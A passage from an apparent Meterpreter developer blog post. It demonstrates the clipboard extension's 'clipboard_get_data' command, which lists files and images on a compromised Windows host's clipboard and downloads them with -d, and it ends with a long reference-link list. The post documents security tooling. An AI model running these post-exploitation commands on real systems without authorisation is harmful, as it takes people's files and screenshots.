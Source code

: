 Here we can see that the user has got a selection of files on the clipboard, and the extension lets us know what they are and how big they are. Directories are also supported, but displayed as a file with 0 bytes, like so:

```
meterpreter > clipboard_get_data

Current Clipboard Files
=======================

File Path               Size (bytes)
---------               ------------
C:\Python27\Doc         0
C:\Python27\NEWS.txt    263050
C:\Python27\README.txt  54961
C:\Python27\python.exe  26624

4 file(s) totalling 344635 bytes
```

This might change in future, but for now this is how it works. Doing a recursive file stat to get counts of files and files sizes was deemed overkill for the sake of this exercise.

While this output is interesting, it'd be more useful to be able to download those files as well. This is where the `-d` switch comes in, as this tells the extension to download the files to the local machine:

``` plain Download files using the -d switch
meterpreter > clipboard_get_data -d

[*] Downloading Clipboard Files ...
downloading: C:\Python27\README.txt -> /Users/oj/code/metasploit-framework/README.txt
downloaded : C:\Python27\README.txt -> /Users/oj/code/metasploit-framework/README.txt
downloading: C:\Python27\Doc\python271.chm -> /Users/oj/code/metasploit-framework/Doc/python271.chm
downloaded : C:\Python27\Doc\python271.chm -> /Users/oj/code/metasploit-framework/Doc/python271.chm
downloading: C:\Python27\NEWS.txt -> /Users/oj/code/metasploit-framework/NEWS.txt
downloaded : C:\Python27\NEWS.txt -> /Users/oj/code/metasploit-framework/NEWS.txt
downloading: C:\Python27\python.exe -> /Users/oj/code/metasploit-framework/python.exe
downloaded : C:\Python27\python.exe -> /Users/oj/code/metasploit-framework/python.exe
[+] Downloaded 4 file(s).
```

Here you can see that download does work recursively. So we can deal with text and files, what about image data? What if someone takes a screenshot of something?

``` plain Image data
meterpreter > clipboard_get_data

Clipboard Image Dimensions: 240x180
Re-run with -d to download image.
```

The extension tells us that there is image data on the clipboard, and that again we can use the `-d` switch to pull the data down:

``` plain Download image data with -d
Clipboard Image Dimensions: 240x180
[+] Clipboard image saved to /Users/oj/code/metasploit-framework/ZoepvBYT.jpg
```


  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Rapid7]: http://www.rapid7.com/
  [vs_express]: http://www.visualstudio.com/downloads/download-visual-studio-vs#d-express-windows-desktop
  [vs_2012_pr]: https://github.com/rapid7/meterpreter/pull/16
  [vs_2013_pr]: https://github.com/rapid7/meterpreter/pull/41
  [ext_server_sniffer]: https://github.com/rapid7/meterpreter/tree/master/workspace/ext_server_sniffer
  [Jenkins]: http://jenkins-ci.org/
  [clean_builds_pr]: https://github.com/rapid7/meterpreter/pull/49
  [clean_builds_image]: https://github-camo.global.ssl.fastly.net/55f4e2cf4419f90a802acb0f3ac3b4d87476ff02/687474703a2f2f692e696d6775722e636f6d2f6b5852523176482e706e67
  [pointer_truncation]: http://buffered.io/posts/64bit-pointer-truncation-in-meterpreter/
  [MS08-067]: http://technet.microsoft.com/en-us/security/bulletin/ms08-067
  [pip_adapter_fix]: https://github.com/rapid7/meterpreter/pull/21
  [Juan]: https://twitter.com/_juan_vazquez_
  [Meatballs]: https://twitter.com/Meatballs__
  [sinn3r]: https://twitter.com/_sinn3r
  [wvu]: https://twitter.com/wvuuuuuuuuuuuuu
  [Egypt]: https://twitter.com/egyp7
  [todb]: https://twitter.com/todb
  [TheLightCosine]: https://twitter.com/TheLightCosine
  [HD Moore]: https://twitter.com/hdmoore
  [multi_call_railgun_metasploit]: https://github.com/rapid7/metasploit-framework/pull/2458
  [multi_call_railgun_meterpreter]: https://github.com/rapid7/meterpreter/pull/28
  [strcpy]: http://www.cplusplus.com/reference/cstring/strcpy/
  [Honey Badger]: http://en.wikipedia.org/wiki/Honey_Badger_Don't_Care
  [hack_protection]: https://github.com/rapid7/meterpreter/pull/32
  [webcam_module]: https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/stdapi/webcam/webcam.rb
  [COM]: http://www.microsoft.com/com/default.mspx
  [webcam_fix_pr]: https://github.com/rapid7/meterpreter/pull/44
  [msfpayload]: http://www.offensive-security.com/metasploit-unleashed/Msfpayload
  [Railgun]: http://www.room362.com/blog/2010/7/7/intro-to-railgun-win-api-for-meterpreter.html
  [kitrap0d_first]: http://carnal0wnage.attackresearch.com/2010/01/kitrap0d-now-in-metasploit.html
  [kitrap0d_meterpreter_pr]: https://github.com/rapid7/meterpreter/pull/51
  [kitrap0d_metasploit_pr]: https://github.com/rapid7/metasploit-framework/pull/2633
  [kitrap0d_module]: https://github.com/OJ/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_015_kitrap0d.rb
  [Reflective DLL Injection]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf
  [git submodule]: http://git-scm.com/docs/git-submodule
  [Stephen Fewer]: https://twitter.com/stephenfewer
  [kitrap0d_full_disclosure]: http://seclists.org/fulldisclosure/2010/Jan/341
  [ppr_flatten_rec_pr]: https://github.com/rapid7/metasploit-framework/pull/2701
  [blue-screen]: http://en.wikipedia.org/wiki/Blue_Screen_of_Death
  [Incognito]: http://www.offensive-security.com/metasploit-unleashed/Fun_With_Incognito
  [Incognito_pr]: https://github.com/rapid7/meterpreter/pull/42
  [Incognito v2]: https://labs.mwrinfosecurity.com/blog/2012/07/18/incognito-v2-0-released/
  [stdapi_fs]: https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/stdapi/fs/file.rb
  [getenv_win_met]: https://github.com/rapid7/meterpreter/blob/master/source/extensions/stdapi/server/sys/config/config.c#L43
  [getenv_py_met]: https://github.com/rapid7/metasploit-framework/blob/master/data/meterpreter/ext_server_stdapi.py#L386
  [getenv_php_met]: https://github.com/rapid7/metasploit-framework/blob/master/data/meterpreter/ext_server_stdapi.php#L586
  [getenv_msf]: https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/stdapi/sys/config.rb#L40
  [mubix]: https://twitter.com/mubix
  [getproxy_metasploit_pr]: https://github.com/rapid7/metasploit-framework/pull/2592
  [command_dispatcher_terminate]: https://github.com/rapid7/meterpreter/blob/master/source/server/server_setup.c#L358
  [MFC]: http://en.wikipedia.org/wiki/Microsoft_Foundation_Class_Library
  [base_macros]: https://github.com/rapid7/meterpreter/blob/master/source/common/base.h#L25
  [command_dispatch_pr]: https://github.com/rapid7/meterpreter/pull/34
  [justinsteven]: https://twitter.com/justinsteven
  [radac]: https://twitter.com/radac_
  [sw1tch]: https://twitter.com/sw1tch1ng
  [Novex]: https://twitter.com/sebbity
  [Ash]: https://twitter.com/ashd_au
  [Wade]: https://twitter.com/wadealcorn
  [email]: /contact
  [TheColonial]: https://twitter.com/TheColonial
  [Zeknox]: https://twitter.com/zeknox
  [SmilingRaccoon]: https://twitter.com/smilingraccoon
  [metasploit_extapi_pr]: https://github.com/rapid7/metasploit-framework/pull/2602
  [meterpreter_extapi_pr]: https://github.com/rapid7/meterpreter/pull/45
  [DACL]: http://msdn.microsoft.com/en-us/library/windows/desktop/aa446597(v=vs.85).aspx
  [GDIPlus]: http://msdn.microsoft.com/en-us/library/windows/desktop/ms533798(v=vs.85).aspx
  [adsi_metasploit_pr]: https://github.com/rapid7/metasploit-framework/pull/2736
  [adsi_meterpreter_pr]: https://github.com/rapid7/meterpreter/pull/60
  [Doxygen]: http://www.doxygen.org/
  [meterpreter_docs]: https://ci.metasploit.com/job/MeterpreterWinDocs/lastSuccessfulBuild/artifact/docs/html/index.html
  [meterpreter_ci]: https://ci.metasploit.com/job/MeterpreterWin/
  [BPX]: https://ruxconbreakpoint.com/
  [Rux]: http://ruxcon.org.au/
  [Pipes]: https://twitter.com/pipes
  [Kernelsmith]: https://twitter.com/kernelsmith
  [posix_signalling]: https://github.com/rapid7/meterpreter/pull/38/files#diff-9855cd942b30d41aeb1ac277daa18033R199
  [channel_refactor_pr]: https://github.com/rapid7/meterpreter/pull/38
  [indigo_montoya]: https://www.youtube.com/watch?v=G2y8Sx4B2Sk
  [Matthew Risck]: https://twitter.com/Mateusz_Jozef
  [Brandon]: https://twitter.com/blt04
  [sec_street_tldr]: https://community.rapid7.com/community/metasploit/blog/2013/12/27/meterpreter-reloaded
  [metasploit_post_extapi]: https://community.rapid7.com/community/metasploit/blog/2013/12/12/weekly-metasploit-update
  [Event]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms682396%28v=vs.85%29.aspx